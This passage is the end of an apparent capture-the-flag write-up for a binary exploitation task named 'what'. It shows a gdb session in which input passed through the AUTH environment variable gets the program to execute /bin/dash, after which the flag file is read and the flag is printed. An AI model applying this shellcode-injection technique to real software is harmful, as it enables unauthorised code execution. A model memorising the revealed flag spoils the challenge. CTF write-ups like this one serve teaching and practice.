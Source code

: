 The python script should work, but somehow I don't get the same result as running the solution manually using `gdb` and with the generated shellcode. Please help me out, if you know why.

To get the flag, we simply have to set `AUTH` in a terminal and our args in `gdb`:

```bash
$ python solve.py
$ md5sum in
0df954f16cf78242a03d237b4ff53991  in
$ export AUTH=$(cat ./in)/faultier/
gdb-peda$ set args ausgeschnitzel flugelfragen
gdb-peda$ r
Starting program: /home/vbox/pwn/tasks/ice/what/what ausgeschnitzel flugelfragen
Authenticating...
process 7328 is executing new program: /bin/dash
$ xxd flag.txt
[New process 7332]
process 7332 is executing new program: /usr/bin/xxd
0000000: 666c 6167 5f73 7175 6561 6d69 7368 5f6f  flag_squeamish_o
0000010: 7373 6966 7261 6765 0a                   ssifrage.
$ [Inferior 2 (process 7332) exited normally]
Warning: not running or target is remote
```

The flag is `flag_squeamish_ossifrage`.

## Other write-ups and resources

* <http://blog.atx.name/icectf/#What>
* <http://73696e65.github.io/blog/2015/08/24/icec-dot-tf-writeup/>
